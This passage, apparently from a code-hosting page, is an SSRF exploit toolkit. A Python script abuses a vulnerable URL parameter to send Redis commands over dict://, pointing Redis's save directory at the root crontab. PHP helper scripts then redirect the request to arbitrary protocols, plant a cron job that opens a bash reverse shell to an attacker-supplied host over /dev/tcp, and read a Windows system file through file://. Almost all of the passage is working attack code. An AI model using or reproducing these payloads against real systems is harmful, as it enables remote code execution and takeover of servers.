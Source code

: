 ```python
print requests.get(exp_uri).content
#3 config set dir /var/spool/cron/
_payload = '?s=dict%26ip={host}%26port={port}%26data=config:set:dir:/var/spool/cron/'.format(
    host = host,
    port = port)
exp_uri = '{vul_httpurl}{0}{1}%23helo.jpg'.format(_location, _payload, vul_httpurl=vul_httpurl)
print exp_uri
print requests.get(exp_uri).content
#4 config set dbfilename root
_payload = '?s=dict%26ip={host}%26port={port}%26data=config:set:dbfilename:root'.format(
    host = host,
    port = port)
exp_uri = '{vul_httpurl}{0}{1}%23helo.jpg'.format(_location, _payload, vul_httpurl=vul_httpurl)
print exp_uri
print requests.get(exp_uri).content
#5 save to file
_payload = '?s=dict%26ip={host}%26port={port}%26data=save'.format(
    host = host,
    port = port)
exp_uri = '{vul_httpurl}{0}{1}%23helo.jpg'.format(_location, _payload, vul_httpurl=vul_httpurl)
print exp_uri
print requests.get(exp_uri).content
```

302.php辅助脚本：

```php
<?php
$ip = $_GET['ip'];
$port = $_GET['port'];
$scheme = $_GET['s'];
$data = $_GET['data'];
header("Location: $scheme://$ip:$port/$data");
?>
```

shell.php辅助脚本：

```php
<?php
$ip = $_GET['ip'];
$port = $_GET['port'];
$bhost = $_GET['bhost'];
$bport = $_GET['bport'];
$scheme = $_GET['s'];
header("Location: $scheme://$ip:$port/set:0:\"\\x0a\\x0a*/1\\x20*\\x20*\\x20*\\x20*\\x20/bin/bash\\x20-i\\x20>\\x26\\x20/dev/tcp/{$bhost}/{$bport}\\x200>\\x261\\x0a\\x0a\\x0a\"");
?>
```

file.php辅助脚本:

```php
<?php
header("Location: file:///c:/windows/system.ini");
?>
```
